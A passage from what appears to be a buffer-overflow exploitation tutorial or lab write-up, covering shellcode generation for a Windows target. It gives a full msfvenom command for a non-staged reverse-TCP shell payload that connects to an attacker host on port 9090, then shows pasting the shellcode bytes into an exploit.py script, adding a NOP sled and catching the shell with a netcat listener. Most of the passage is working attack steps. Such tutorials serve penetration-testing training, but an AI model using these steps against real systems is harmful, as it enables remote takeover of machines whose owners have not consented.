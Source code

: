 - - -
### Generating Shellcode :

• Move to your Kali terminal.
• And run the following command :

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<our_IP> LPORT=9090 EXITFUNC=thread -f c -a x86 -b “\x00\x<...your_bad chars>”
```
**Note :** this is a x32 bit windows non-staged payload.

![Imgur](https://i.imgur.com/G9JJGhx.png)

Copy the generated C code strings and paste them into your **exploit.py**'s payload variable But inside brackets ; 
Like that : 
```sh
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"  
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"  
...test payload ☺☺☺☺☺☺☺☺  
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"  
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

☐ Before saving the exploit.py 
☐ we will need some space in memory for the payload to unpack itself. 
☐ we can do this by setting the padding variable to a string of 16, 32, 8 or more...
         ☐ update the padding variable like this : 
```python
padding = "\x90" * 16
```

☐  Save the script. 
☐ Set up a listner. ( LPORT we specified ). 
☐ Restart Immunity and run the modified exploit.py script again. 
☐ Our netcat listener should catch a reverse shell!
- - -


